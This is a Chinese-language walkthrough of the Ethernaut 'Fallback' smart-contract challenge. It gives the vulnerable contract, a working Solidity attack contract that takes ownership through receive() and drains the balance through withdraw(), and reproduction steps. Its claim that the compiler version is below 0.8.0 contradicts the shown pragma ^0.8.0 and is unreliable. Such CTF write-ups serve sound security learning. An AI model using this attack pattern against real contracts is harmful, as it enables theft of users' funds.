# Fallback

## 题目

通关要求：获得这个合约的所有权(成为owner)，并且将这个合约的余额减少为0。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
  	//console是我自己加的，原题没有，只是为了方便调试，对题目没任何影响
 	console.log("(withdraw)msg.sender is:",msg.sender);
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## 分析

首先看编译器，使用的编译器版本是`< 0.8.0`. 这意味着合约可能出现整数溢出漏洞。

然后重点的方法是`withdraw`，这个方法会将合约中的余额转到owner账户当中。但是这个方法有onlyOwner修饰，因此，我们需要将owner更改为我们的地址，才可以调用这个方法，从而达到通关目的。

如何将owner更改为我们的地址呢？有两个可能性：(1)contribute函数(2)receive函数

### contribute()

```solidity
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

这个方法允许调用者发送一定的钱到合约，但是每次调用只可以发少于0.001ETH，这个钱会被存合约记录。当记录的钱数大于owner的时候，就会发生owner的转化。简单来说，合约的owner是在本合约中最有钱的人。

但是我们可以通过发送非常多钱从而成为owner吗？这是可以的，最初的owner拥有1000ETH，积累超过1000ETH就可以了。但是累计超过1000ETH，那至少调用1000001次contribute方法才行，我认为这个关卡的目的不是让我们通过这个方法来更改owner。那我们看看有没有其他方法。

### receive()

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

我们知道，当我们和一个合约交互，向合约发送以太币并且没传输数据data的时候，receive就会被调用。

我们分析知道，当满足：向合约发送的以太币大于0，并且调用者在合约中的记录钱数大于0，就可以发生owner的转化，思路清晰了。

## 攻击

1. 调用contribute方法，向合约发送1Wei
2. 直接向合约transfer 1Wei
3. 调用withdraw取钱

```solidity
// SPDX-License-Identifier: MIT
import "hardhat/console.sol";//为了在控制台打印输出
pragma solidity ^0.8.0;

contract FallbackAttack{
    address payable public _fallback;//用来存放题目的地址

    constructor(address payable _address) payable public {
        _fallback = _address;//题目地址传入
    }

    function attack1() public payable {
        //msg.value设置为10Wei
        _fallback.call{value: msg.value}(abi.encodeWithSignature("contribute()"));
    }
    function attack2() public payable {
        //msg.value设置为1Wei
        _fallback.call{value: 1}("");
    }

    function attack3() public payable {
    	//打印调试
    	console.log("(attack4)msg.sender is:",msg.sender); 
    	//提款
        _fallback.call(abi.encodeWithSignature("withdraw()"));          
    }

    receive() external payable {
    	//一定要有receive或者回调函数！
    	//否则withdraw提款的时候无法成功！
    	//假如没这个函数，attack3虽然调用成功，但是却不会到账！
    }
}
```

## 复现

部署合约，将被攻击者Fallback作为参数输入FallbackAttack中，部署的时候给FallbackAttack 10Wei，因为发起攻击的时候需要一点钱





attack1执行：调用contribute方法，向合约发送1Wei





attack2执行：直接向合约transfer 1Wei



attack3执行：调用withdraw取钱



## 做题

获取题目地址：`0x8341FA6Deb382b79b441deE6b920AC1470348A33`



部署：将题目地址放到At Address框中



设置msg.value=1Wei，调用contribute方法



设置msg.value=1, 调用Transact底层调用（目的是触发receive函数）



查看owner，已经成功被我们修改。然后调用withdraw函数取钱。



在靶场点击Submit instrance提交题目



成功！




[原题目网站](https://ethernaut.openzeppelin.com/level/0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F)与[引用资料](https://stermi.medium.com/ethernaut-challenge-1-solution-fallback-23ee62909b39)


